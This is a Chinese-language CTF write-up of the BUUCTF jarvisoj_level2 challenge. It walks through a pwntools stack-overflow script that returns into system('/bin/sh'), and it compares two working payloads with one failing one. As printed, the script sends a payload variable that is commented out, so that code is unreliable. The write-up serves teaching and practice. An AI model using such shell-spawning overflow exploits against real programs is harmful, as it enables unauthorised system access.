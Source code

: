 > 题目来源：BUUCTF-jarvisoj_level2
>
> 附件下载：
>
> 链接: [https://pan.baidu.com/s/1DS0_pY7o0A3lApgWYuFcPQ](https://pan.baidu.com/s/1DS0_pY7o0A3lApgWYuFcPQ)  密码: gb23
>
> --来自百度网盘超级会员V3的分享
>

调试环境：![](https://cdn.nlark.com/yuque/0/2020/png/574026/1608962007133-c7c15021-5c54-4a89-97bb-495b28eb2935.png)

<font style="color:#F5222D;">关闭系统的地址随机化</font>

在这道题目中，正确的payload有两种写法，如下：

```python
from pwn import *
context.log_level='debug'

p=process('./level2')

system_addr=0x0804845C
bin_sh_addr=0x0804A024
system_plt_addr=0x08048320
payload=(0x88+0x4)*'a'+p32(system_addr)+p32(bin_sh_addr)
#payload1=(0x88+0x4)*'a'+p32(system_plt_addr)+'bbbb'+p32(bin_sh_addr)
#error_payload=(0x88+0x4)*'a'+p32(system_addr)+'bbbb'+p32(bin_sh_addr)
gdb.attach(p)
#print payload
#print payload1
p.sendline(payload1)
p.interactive()
```

其中payload和payload1可以成功的getshell，但是error_payload无法成功getshell。

可以看到payload和error_payload具有相似的地方，payload1和error_payload具有相似的地方。但是千万不要将这三个payload搞混，这三个payload具有不同的含义。

先来解读一下这三个payload吧，不用管为什么要这样写，之后会说明。

```python
payload=(0x88+0x4)*'a'+p32(system_addr)+p32(bin_sh_addr)
```

第一个payload是输入大量字符之后让程序发生栈溢出的情况，让其返回地址变为system_addr，自然而然的后面的

“/bin/sh”就是system的参数（后面的动态调试会体现这一点）

请注意，这里的system_addr指的是程序代码段中的地址，而不是system_plt的地址：

```python
#是这个：
.text:0804845C                 call    _system
-----------------------------------------------------------------------------------
#不是这个：
.plt:08048320 ; int system(const char *command)
.plt:08048320 _system         proc near               ; CODE XREF: vulnerable_function+11↓p
.plt:08048320                                         ; main+1E↓p
.plt:08048320
.plt:08048320 command         = dword ptr  4
.plt:08048320
.plt:08048320                 jmp     ds:off_804A010
.plt:08048320 _system         endp
```
